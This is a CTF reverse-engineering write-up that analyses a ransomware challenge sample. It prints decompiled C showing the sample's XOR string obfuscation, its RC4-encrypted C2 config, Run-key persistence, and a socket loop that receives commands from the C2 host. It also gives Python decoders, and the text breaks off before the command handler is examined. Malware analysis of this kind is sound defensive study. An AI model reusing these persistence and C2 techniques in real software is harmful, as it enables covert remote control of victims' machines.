# Capture Point 5353 3.0 Writeup

## Intro



After finishing Cyber Apocalypse CTF 2025 and SwampCTF, I still had the CTF itch, so I participated in this one. This CTF only had one reverse engineering challenge, which wasn't too difficult. Unfortunately, I got an upset stomach after lunch, so it took longer than expected.

> Ransomware Unchained
>
> A mysterious ransomware is on the loose! It locks files, executes secret commands, and whispers to a hidden C2 server. Can you analyze the artifacts, uncover the decryption key, and rescue the flag before it’s too late?

## Reverse Part.0: Reconnaissance



First, the challenge provided `sample.exe` and a network capture `capture.pcapng`. The packet capture isn't immediately useful, so let's examine `sample.exe` first.

As usual, the standard first step is to check the details with DIE:



We can see it's an MSVC compiled PE format x86-64 executable, without protection, so we can analyze it directly with IDA64.



After loading it, we see a very clear structure. The program doesn't have obfuscation or dead code measures, making the analysis relatively straightforward.

## Reverse Part.1: String Decryption Function





First, let's analyze the outermost layer. We can see it creates a mutex and checks if the error code is `ERROR_ALREADY_EXISTS(183)`.

Combined with the output message, we can reasonably infer this is a check to ensure only a single instance of the process is running. Additionally, `v3` calls an unknown function, passing a seemingly encrypted string as the first argument, so first we need to know what `v3` is.

According to the `CreateMutexW` function prototype, we can see that `v3` is actually a wide string:

```c
HANDLE CreateMutexW(
  [in, optional] LPSECURITY_ATTRIBUTES lpMutexAttributes,
  [in]           BOOL                  bInitialOwner,
  [in, optional] LPCWSTR               lpName
);
```

Let's follow the `sub_1400013B0` function:



It looks quite chaotic; it's clearly been optimized using SIMD. Let's analyze step-by-step:

```c
  v2 = -1i64;
  v3 = a1;
  do
    ++v2;
  while ( a1[v2] );
```

This part obviously calculates the length of `a1` and assigns `a1` to `v3`. It's actually a standard `strlen` implementation.

```c
  v4 = (unsigned int)(2 * v2 + 2);
  if ( (unsigned int)(2 * v2) >= 0xFFFFFFFE )
    v4 = -1i64;
  v5 = (__m128i *)malloc(v4);
  memset(v5, 0, 2 * (int)v2 + 2);
  v6 = 0;
  v7 = v5;
```

This part allocates an output buffer `v5` based on the calculated length. The buffer size is twice the input size, filled entirely with `0`, and `v7` is used as its alias.

```c
  if ( (int)v2 > 0 )
  {
    if ( (unsigned int)v2 < 0x20 )
      goto LABEL_12;
    v8 = (int)v2 - 1;
    if ( v5 <= (__m128i *)&v3[v8] && (char *)v5 + 2 * v8 >= v3 )
      goto LABEL_12;
    v9 = _mm_load_si128((const __m128i *)&xmmword_140005670);
    do
    {
      v10 = _mm_move_epi64(si128);
      v11 = _mm_xor_si128(_mm_loadl_epi64((const __m128i *)v3), v10);
      v6 += 32;
      *v7 = _mm_and_si128(_mm_srai_epi16(_mm_unpacklo_epi8(v11, v11), 8u), v9);
      v12 = _mm_xor_si128(_mm_loadl_epi64((const __m128i *)(v3 + 8)), v10);
      v7[1] = _mm_and_si128(_mm_srai_epi16(_mm_unpacklo_epi8(v12, v12), 8u), v9);
      v13 = _mm_xor_si128(_mm_loadl_epi64((const __m128i *)v3 + 1), v10);
      v7[2] = _mm_and_si128(_mm_srai_epi16(_mm_unpacklo_epi8(v13, v13), 8u), v9);
      v14 = _mm_loadl_epi64((const __m128i *)(v3 + 24));
      v3 += 32;
      v15 = _mm_xor_si128(v14, v10);
      v7[3] = _mm_and_si128(_mm_srai_epi16(_mm_unpacklo_epi8(v15, v15), 8u), v9);
      v7 += 4;
    }
    while ( v6 < (int)(v2 - (v2 & 0x1F)) );
    if ( v6 < (int)v2 )
    {
LABEL_12:
      v16 = (unsigned int)(v2 - v6);
      do
      {
        v7 = (__m128i *)((char *)v7 + 2);
        v17 = *v3++ ^ 0x2F;
        v7[-1].m128i_i16[7] = v17;
        --v16;
      }
      while ( v16 );
    }
  }
```

Regarding this processing logic, let's focus on this part:

```c
if ( (int)v2 > 0 )
...
v6 += 32;
...
if ( v6 < (int)v2 )
```

First, this part checks if `v2` (string length) is `0`. If not, it processes the string.

`v6` is the number of processed input bytes, and `v3` is the pointer to the input bytes. We can see that each SIMD loop processes 32 bytes, while the remaining part falls into a non-SIMD loop to handle the excess.

Let's focus on the core logic:

```c
      v16 = (unsigned int)(v2 - v6);
      do
      {
        v7 = (__m128i *)((char *)v7 + 2);
        v17 = *v3++ ^ 0x2F;
        v7[-1].m128i_i16[7] = v17;
        --v16;
      }
      while ( v16 );
```

This loop handles the remaining bytes. Let's focus on the core logic:

```c
v7 = (__m128i *)((char *)v7 + 2);
v17 = *v3++ ^ 0x2F;
```

It looks like it iterates through the remaining characters of `v3` (which is the input `a1`), XORs them with `0x2F`, and advances the output pointer by two bytes (this is actually converting ASCII to wide characters).

Therefore, this is clearly a string decoding function. We can implement it with the following equivalent Python function:

```python
def decode_str(encoded_string):
    decoded_chars = []
    for char in encoded_string:
        decoded_char_code = ord(char) ^ 0x2F
        decoded_chars.append(chr(decoded_char_code))
    return "".join(decoded_chars)
```

Let's try decoding the initial string:

```python
def main():
    encoded_str = 'lgj}avvdg`k'
    decoded_str = decode_str(encoded_str)
    print(decoded_str)
main()
```

```
> python .\decode.py
CHERNYYKHOD
```

Success! We successfully decoded a meaningful string. Although it seems this string is used for the mutex, which isn't very meaningful to us. Meanwhile, let's rename this function to `decodeStr`.

## Reverse Part.2 Main Logic Analysis

After analyzing the string decryption function, let's look at the main logic:

```c
      ModuleHandleW = GetModuleHandleW(0i64);
      v5 = GetModuleHandleW(0i64);
      ResourceA = FindResourceA(v5, "DATA", "CONFIG");
      v7 = ResourceA;
      if ( ResourceA
        && (v8 = SizeofResource(ModuleHandleW, ResourceA), (Resource = LoadResource(ModuleHandleW, v7)) != 0i64)
        && (v10 = LockResource(Resource)) != 0i64
        && v8 >= 0x42 )
      {
        v11 = malloc(v8);
        memset(v11, 0, v8);
        memcpy(v11, v10, v8);
        sub_140001750(v11, v8);
        cp = (char *)v11;
        v12 = (const BYTE *)sub_140001530();
        if ( v12 )
        {
          *(_QWORD *)&hKey.sa_family = 0i64;
          if ( !RegOpenKeyExW(
                  HKEY_CURRENT_USER,
                  L"Software\\Microsoft\\Windows\\CurrentVersion\\Run",
                  0,
                  0xF003Fu,
                  (PHKEY)&hKey) )
          {
            if ( *(_QWORD *)&hKey.sa_family )
            {
              cbData = 0;
              Type[0] = 1;
              if ( RegQueryValueExW(*(HKEY *)&hKey.sa_family, L"Cherny", 0i64, (LPDWORD)Type, 0i64, &cbData) == 2 )
              {
                v13 = -1i64;
                while ( *(_WORD *)&v12[2 * v13++ + 2] != 0 )
                  ;
                RegSetValueExW(*(HKEY *)&hKey.sa_family, L"Cherny", 0, 1u, v12, 2 * v13 + 2);
              }
              CloseHandle(*(HANDLE *)&hKey.sa_family);
            }
          }
        }
        *(_QWORD *)&hKey.sa_data[6] = 0i64;
        *(_OWORD *)&hReadPipe = 0i64;
        *(_OWORD *)&hObject = 0i64;
        *(_OWORD *)&hThread = 0i64;
        xmmword_140008730 = 0i64;
        if ( WSAStartup(0x202u, &WSAData) )
          return 0;
        hKey.sa_family = 2;
        *(_WORD *)hKey.sa_data = htons(*((_WORD *)cp + 32));
        *(_DWORD *)&hKey.sa_data[2] = inet_addr(cp);
        v15 = socket(2, 1, 6);
        while ( connect(v15, &hKey, 16) == -1 )
          ;
        *((_QWORD *)&xmmword_140008730 + 1) = v15;
        v16 = malloc(0x400ui64);
        memset(v16, 0, 0x400ui64);
        while ( recv(*((SOCKET *)&xmmword_140008730 + 1), (char *)v16, 1024, 0) )
        {
          sub_1400020C0((LPCSTR)v16);
          memset(v16, 0, 0x400ui64);
        }
        v17 = "Socket closed gracefully.";
```

First, let's analyze it segment by segment:

```c
      ModuleHandleW = GetModuleHandleW(0i64);
      v5 = GetModuleHandleW(0i64);
      ResourceA = FindResourceA(v5, "DATA", "CONFIG");
      v7 = ResourceA;
      if ( ResourceA
        && (v8 = SizeofResource(ModuleHandleW, ResourceA), (Resource = LoadResource(ModuleHandleW, v7)) != 0i64)
        && (v10 = LockResource(Resource)) != 0i64
        && v8 >= 0x42 )
      {
        v11 = malloc(v8);
        memset(v11, 0, v8);
        memcpy(v11, v10, v8);
        sub_140001750(v11, v8);
        cp = (char *)v11;
```

By consulting relevant API documentation and function prototypes, we know this code reads the `CONFIG` data from the `DATA` section in the PE file's resources, stores it in `v10`, stores the data length in `v8`, and validates its size is at least `0x42`.

Then, it allocates a new buffer `v11` of that size and copies the data from `v10` into `v11`.

Subsequently, it calls an unknown function `sub_140001750` passing `v11` and `v8`, and then assigns `v11` to `cp`.

```c
*(_DWORD *)&hKey.sa_data[2] = inet_addr(cp);
```

From this part, we can see that `cp` is actually used as the target address for the socket connection, so we need to extract it first:



Unfortunately, the `CONFIG` data seems encrypted; we can't find any useful strings here. But based on the call above, we see `v11` was passed to `sub_140001750` for some processing. So, let's trace into it:



It seems a bit chaotic, let's look at it separately:

```c
  v5 = decodeStr(aXgNakxgjJfBvbn);
  cbMultiByte = WideCharToMultiByte(0xFDE9u, 0, (LPCWCH)v5, -1, 0i64, 0, 0i64, 0i64);
  lpMultiByteStr = (char *)malloc(cbMultiByte);
  memset(lpMultiByteStr, 0, cbMultiByte);
  v8 = -1i64;
  do
    ++v8;
  while ( v5->m128i_i16[v8] );
  WideCharToMultiByte(0xFDE9u, 0, (LPCWCH)v5, v8, lpMultiByteStr, cbMultiByte, 0i64, 0i64);
```

We can see the first part decodes a certain string and converts it into a standard multi-byte string, stored in `lpMultiByteStr`.

```c
  v9 = 256i64;
  v10 = (char *)operator new(0x100ui64);
  memset(v10 + 1, 0, 0xFFui64);
  v11 = 0;
  v12 = 0;
  v13 = v10;
  do
    *v13++ = v12++;
  while ( v12 < 256 );
```

Next, it allocates `0x100` bytes of memory and fills it with `[0, 256)`. This is actually the initialization of an **SBox**.

```c
  do
  {
    v16 = *v14;
    v17 = -1i64;
    do
      ++v17;
    while ( lpMultiByteStr[v17] );
    v11 = (v16 + lpMultiByteStr[v15 % v17] + v11) % 256;
    ++v15;
    result = (unsigned __int8)v10[v11];
    *v14++ = result;
    v10[v11] = v16;
    --v9;
  }
  while ( v9 );
  v19 = 0;
  if ( a2 > 0 )
  {
    do
    {
      v4 = (v4 + 1) % 256;
      v20 = (unsigned __int8)v10[v4];
      v19 = (v20 + v19) % 256;
      v10[v4] = v10[v19];
      v10[v19] = v20;
      result = (unsigned __int8)(v20 + v10[v4]);
      *a1++ ^= v10[result];
    }
    while ( v4 < a2 );
  }
```

And in this part, we can clearly see it's an **RC4** implementation, using `lpMultiByteStr` as the key and `[0, 256)` as the SBox.

So, everything becomes clear. First, let's decrypt the RC4 Key:

```python
def main():
    encoded_str = 'xg`nakxgj}jf|bvbn|{j}'
    decoded_str = decode_str(encoded_str)
    print(decoded_str)
```

```
> python .\decode.py
WHOANDWHEREISMYMASTER
```

Then, let's write the equivalent implementation in Python:

```python
def rc4_decrypt(cp_data_enc, key_str="WHOANDWHEREISMYMASTER"):
    """
    Decrypts cp_data using RC4 algorithm with the given key.

    Args:
        cp_data_enc: Encrypted cp_data as bytes.
        key_str: RC4 key string.

    Returns:
        Decrypted cp_data as bytes.
    """
    key = key_str.encode('utf-8')  # Convert key string to bytes
    s_box = list(range(256))
    j = 0
    key_len = len(key)

    # KSA (Key Scheduling Algorithm)
    for i in range(256):
        j = (j + s_box[i] + key[i % key_len]) % 256
        s_box[i], s_box[j] = s_box[j], s_box[i]

    # PRGA (Pseudo-Random Generation Algorithm)
    i = 0
    j = 0
    cp_data_dec = bytearray()
    for char_enc in cp_data_enc:
        i = (i + 1) % 256
        j = (j + s_box[i]) % 256
        s_box[i], s_box[j] = s_box[j], s_box[i]
        k = s_box[(s_box[i] + s_box[j]) % 256]
        char_dec = char_enc ^ k
        cp_data_dec.append(char_dec)

    return bytes(cp_data_dec)
```

Finally, let's decrypt the `cp` data:

```python
def main():
    with open('./cp.bin', 'rb') as f:
        cp_data_encrypted = f.read()
    decrypted_cp = rc4_decrypt(cp_data_encrypted)
    print(decrypted_cp.decode('utf-8', errors='ignore'))
```

```
> python .\decode.py
192.168.138.67P
```

We've obtained the target IP address: `192.168.138.67`.

Now, let's continue with the following part:

```c
        v12 = (const BYTE *)sub_140001530();
        if ( v12 )
        {
          *(_QWORD *)&hKey.sa_family = 0i64;
          if ( !RegOpenKeyExW(
                  HKEY_CURRENT_USER,
                  L"Software\\Microsoft\\Windows\\CurrentVersion\\Run",
                  0,
                  0xF003Fu,
                  (PHKEY)&hKey) )
          {
            if ( *(_QWORD *)&hKey.sa_family )
            {
              cbData = 0;
              Type[0] = 1;
              if ( RegQueryValueExW(*(HKEY *)&hKey.sa_family, L"Cherny", 0i64, (LPDWORD)Type, 0i64, &cbData) == 2 )
              {
                v13 = -1i64;
                while ( *(_WORD *)&v12[2 * v13++ + 2] != 0 )
                  ;
                RegSetValueExW(*(HKEY *)&hKey.sa_family, L"Cherny", 0, 1u, v12, 2 * v13 + 2);
              }
              CloseHandle(*(HANDLE *)&hKey.sa_family);
            }
          }
        }
```

From here, we can see this part gets a byte array `v12` from `sub_140001530`.

It then assigns it to the value named `Cherny` under `HKEY_CURRENT_USER\\Software\\Microsoft\\Windows\\CurrentVersion\\Run`.

```c
#define REG_NONE                    ( 0ul ) // No value type
#define REG_SZ                      ( 1ul ) // Unicode nul terminated string
#define REG_EXPAND_SZ               ( 2ul ) // Unicode nul terminated string
                                            // (with environment variable references)
#define REG_BINARY                  ( 3ul ) // Free form binary
#define REG_DWORD                   ( 4ul ) // 32-bit number
#define REG_DWORD_LITTLE_ENDIAN     ( 4ul ) // 32-bit number (same as REG_DWORD)
#define REG_DWORD_BIG_ENDIAN        ( 5ul ) // 32-bit number
#define REG_LINK                    ( 6ul ) // Symbolic Link (unicode)
#define REG_MULTI_SZ                ( 7ul ) // Multiple Unicode strings
#define REG_RESOURCE_LIST           ( 8ul ) // Resource list in the resource map
#define REG_FULL_RESOURCE_DESCRIPTOR ( 9ul ) // Resource list in the hardware description
#define REG_RESOURCE_REQUIREMENTS_LIST ( 10ul )
#define REG_QWORD                   ( 11ul ) // 64-bit number
#define REG_QWORD_LITTLE_ENDIAN     ( 11ul ) // 64-bit number (same as REG_QWORD)
```

According to the definition in `winnt.h`, we know that the type of this byte array is actually `REG_SZ`, which is a string.

And `HKEY_CURRENT_USER\\Software\\Microsoft\\Windows\\CurrentVersion\\Run` is the registry key used for programs that run on startup.

Let's dive further into this function:

```c
char *sub_140001530()
{
  char *v0; // rbp
  DWORD CurrentDirectoryW; // r13d
  __int64 v2; // rsi
  size_t v3; // r15
  size_t v4; // rcx
  char *v5; // r12
  HANDLE FirstFileW; // r14
  bool v7; // zf
  const WCHAR *ExtensionW; // rax
  __int64 v9; // rbx
  struct _WIN32_FIND_DATAW FindFileData; // [rsp+20h] [rbp-288h] BYREF

  memset(&FindFileData, 0, sizeof(FindFileData));
  v0 = 0i64;
  CurrentDirectoryW = GetCurrentDirectoryW(0, 0i64);
  v2 = -1i64;
  v3 = 2i64 * CurrentDirectoryW;
  v4 = v3 + 4;
  if ( v3 >= 0xFFFFFFFFFFFFFFFCui64 )
    v4 = -1i64;
  v5 = (char *)malloc(v4);
  memset(v5, 0, v3 + 4);
  GetCurrentDirectoryW(2 * CurrentDirectoryW, (LPWSTR)v5);
  *(_DWORD *)&v5[2 * CurrentDirectoryW - 2] = 2752604;
  FirstFileW = FindFirstFileW((LPCWSTR)v5, &FindFileData);
  if ( FirstFileW != (HANDLE)-1i64 )
  {
    if ( PathFindExtensionW(FindFileData.cFileName) == L".exe" )
    {
      do
        v7 = FindFileData.cAlternateFileName[v2++ - 259] == 0;
      while ( !v7 );
      v0 = (char *)malloc(2 * ((unsigned int)v2 + CurrentDirectoryW) + 2);
      memset(v0, 0, 2 * ((unsigned int)v2 + CurrentDirectoryW) + 2);
      memcpy(v0, v5, v3);
      memcpy(&v0[v3], FindFileData.cFileName, 2 * v2);
    }
    else
    {
      while ( FindNextFileW(FirstFileW, &FindFileData) )
      {
        ExtensionW = PathFindExtensionW(FindFileData.cFileName);
        if ( !lstrcmpiW(ExtensionW, L".exe") )
        {
          v9 = -1i64;
          do
            v7 = FindFileData.cAlternateFileName[v9++ - 259] == 0;
          while ( !v7 );
          v0 = (char *)malloc(2 * ((unsigned int)v9 + CurrentDirectoryW) + 2);
          memset(v0, 0, 2 * ((unsigned int)v9 + CurrentDirectoryW) + 2);
          memcpy(v0, v5, v3);
          memcpy(&v0[v3], FindFileData.cFileName, 2 * v9);
        }
      }
    }
  }
  FindClose(FirstFileW);
  return v0;
}
```

After a rough look, we can analyze that this actually gets the current program directory's location. Therefore, this part's function is to set the current program to start automatically on boot.

However, this isn't very useful for analyzing the program's actual behavior, so we can ignore it and continue to the next part:

```c
        *(_OWORD *)&hReadPipe = 0i64;
        *(_OWORD *)&hObject = 0i64;
        *(_OWORD *)&hThread = 0i64;
        xmmword_140008730 = 0i64;
        if ( WSAStartup(0x202u, &WSAData) )
          return 0;
        hKey.sa_family = 2;
        *(_WORD *)hKey.sa_data = htons(*((_WORD *)cp + 32));
        *(_DWORD *)&hKey.sa_data[2] = inet_addr(cp);
        v15 = socket(2, 1, 6);
        while ( connect(v15, &hKey, 16) == -1 )
          ;
        *((_QWORD *)&xmmword_140008730 + 1) = v15;
        v16 = malloc(0x400ui64);
        memset(v16, 0, 0x400ui64);
        while ( recv(*((SOCKET *)&xmmword_140008730 + 1), (char *)v16, 1024, 0) )
        {
          sub_1400020C0((LPCSTR)v16);
          memset(v16, 0, 0x400ui64);
        }
```

This part is the core of the socket communication receiving section. Let's focus on this part:

```c
        while ( recv(*((SOCKET *)&xmmword_140008730 + 1), (char *)v16, 1024, 0) )
        {
          sub_1400020C0((LPCSTR)v16);
          memset(v16, 0, 0x400ui64);
        }
```

We can see that after receiving data, `sub_1400020C0` is responsible for processing this data, so the program's core logic is likely within it.

## Receiving Function Analysis

First, let's analyze the first part of the receiving function:

```c
  v1 = -1i64;
  v3 = -1i64;
  do
    v4 = pszString[++v3] == 0;
  while ( !v4 );
  if ( pszString[v3 - 1] == 10 )
  {
    v5 = -1i64;
    do
      v4 = pszString[++v5] == 0;
    while ( !v4 );
    pszString[v5 - 1] = 0;
  }
  v6 = -1i64;
  pcbBinary = 0;
  do
    ++v6;
  while ( pszString[v6] );
  CryptStringToBinaryA(pszString, v6, 1u, 0i64, &pcbBinary, 0i64, 0i64);
  v7 = pcbBinary + 1;
  if ( pcbBinary == -1 )
    v7 = -1i64;
  v8 = (char *)malloc(v7);
  memset(v8, 0, pcbBinary + 1);
  v9 = -1i64;
  do
    ++v9;
  while ( pszString[v9] );
  CryptStringToBinaryA(pszString, v9, 1u, (BYTE *)v8, &pcbBinary, 0i64, 0i64);
  Context = 0i64;
  v10 = 0i64;
  Delimiter[0] = '|';
  v11 = 0i64;
  if ( *v8 == 'D' )
  {
    v10 = strtok_s(v8 + 1, Delimiter, &Context);
    if ( v10 )
      v11 = strtok_s(0i64, Delimiter, &Context);
  }
  if ( *v8 == 'E' )
  {
    v12 = (char *)sub_1400019F0((__int64)(v8 + 1), pcbBinary - 1);
    v10 = strtok_s(v12, Delimiter, &Context);
    if ( v10 )
      v11 = strtok_s(0i64, Delimiter, &Context);
  }
```

The logic of this part is relatively simple. First, based on the `CryptStringToBinaryA` parameters, we know `CRYPT_STRING_BASE64 = 0x00000001`. The first call calculates the size of the decoded buffer, and the second call decodes it into `v8`.

Then, it checks if the first character after decoding is `'D'` or `'E'`. If it's `'E'`, it additionally calls `sub_1400019F0` to process `v8`. Finally, it uses `strtok_s` with the delimiter `'|'` to store the first and second substrings into `v10` and `v11` respectively.

Let's follow `sub_1400019F0`:

